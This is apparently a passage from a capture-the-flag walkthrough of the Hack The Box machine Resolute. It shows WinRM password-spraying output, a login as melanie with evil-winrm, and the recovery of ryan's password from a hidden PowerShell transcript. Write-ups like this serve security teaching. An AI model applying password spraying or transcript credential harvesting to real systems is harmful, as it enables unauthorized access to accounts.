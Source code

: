 ```bash
WINRM       10.10.10.169    5985   NONE             [-] None\melanie:Welcome123! "Access is denied.  (extended fault data: {'transport_message': 'Bad HTTP response returned from server. Code 500', 'http_status_code': 500, 'wsmanfault_code': '5', 'fault_code': 's:Sender', 'fault_subcode': 'w:AccessDenied'})"
WINRM       10.10.10.169    5985   NONE             [-] None\naoki:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\paulo:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\per:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\ryan:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\sally:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\steve:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\sunita:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\ulf:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\zach:Welcome123! "the specified credentials were rejected by the server"
```
We get `Access is Denied` for use `melanie` so let's try login with that.



## Getting User Shell

We logged in using `melanie : Welcome123!`[br/](br/)
![Untitled](/img/htb-resolute/Untitled%202.png)[br/](br/)
While checking the `C:\` I did `ls -force` which reveals hidden files (a feature in evil-winrm) and there is a directory called `PSTranscript`


> What is PSTranscripts?
                             A PowerShell transcript is a simple text file that contains a history of all commands and their output.

![Untitled](/img/htb-resolute/hh.png)


Checking the file reveals user `ryan` password which is `Serv3r4Admin4cc123!`[br/](br/)
![Untitled](/img/htb-resolute/qq.png)


## Getting Shell as Ryan


Logged in with `ryan : Serv3r4Admin4cc123!`[br/](br/)
![Untitled](/img/htb-resolute/Untitled%203.png)
